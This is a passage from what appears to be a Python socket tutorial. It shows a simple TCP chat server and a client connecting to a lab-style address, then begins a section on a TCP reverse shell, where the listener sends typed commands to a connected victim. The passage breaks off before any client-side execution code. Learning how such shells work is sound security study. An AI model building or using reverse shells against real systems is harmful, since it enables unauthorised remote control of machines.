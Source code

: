 ```python
            request = sock.recv(1024) # Store data up to 1024 bytes.  
            if not request:
                break
            print(f"[*] Received: {request.decode('utf-8')}")
            response = input("Enter message: ")
            sock.send(response.encode('utf-8')) # Send input from response. 

if __name__ == "__main__":
    main()
```

#### The client has the same elements, only added a exit function.

```python
import socket

HOST = "10.10.14.168"
PORT = 8080

def main():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client:
        client.connect((HOST, PORT))
        print(f'[*] Connected to {HOST}:{PORT}')
        
        while True:
            message = input("Enter message: ")
            if message.lower() == 'exit': # When typing exit, closes connection
                break
            client.send(message.encode('utf-8'))
            response = client.recv(4096)
            print(f"[*] Response: {response.decode('utf-8')}")

if __name__ == "__main__":
    main()
```

## TCP Reverse Shell

We can leave our main function the same but in the handle\_client function we ask for input and we end the function when 'exit' is typed.

```python
while True:
  command = input("$ ")
  if command.lower() == 'exit': 
    break
  sock.send(command.encode('utf-8')) 
```

We save the output from our command in response and print it. If request is empty it will exit the loop.
